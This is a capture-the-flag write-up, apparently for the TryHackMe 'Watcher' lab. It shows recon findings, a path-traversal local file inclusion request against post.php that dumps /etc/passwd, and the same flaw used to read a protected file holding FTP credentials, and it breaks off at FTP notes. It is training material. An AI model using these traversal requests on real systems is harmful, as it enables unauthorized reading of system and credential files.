

## recon

### Steps to reproduce

#### 1.

*Things to notice*

- Wappalyzer:

    - Backend is PHP

- Nuclei
    - /flag_1.txt / flag
    - /secret_file_do_not_read.txt
        - get a 403 forbidden but we can do the LFI from below

**Possible LFI**

*Proof of Concept:*

```
http://watcher.thm/post.php?post=../../../etc/passwd

returns:

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin will:x:1000:1000:will:/home/will:/bin/bash ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin mat:x:1002:1002:,#,,:/home/mat:/bin/bash toby:x:1003:1003:,,,:/home/toby:/bin/bash systemd-timesync:x:112:115:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin tss:x:113:118:TPM software stack,,,:/var/lib/tpm:/bin/false tcpdump:x:114:119::/nonexistent:/usr/sbin/nologin usbmux:x:115:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin fwupd-refresh:x:116:120:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ubuntu:x:1004:1005:Ubuntu:/home/ubuntu:/bin/bash

possible to do sum with
```


**Reading the secret txt with LFI**

```
http://watcher.thm/post.php?post=secret_file_do_not_read.txt
```

*Returns*

```
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:givemefiles777
```

**Exploiting FTP**

- Version vsFTPd 3.0.5

- /files dir with executes right

    - 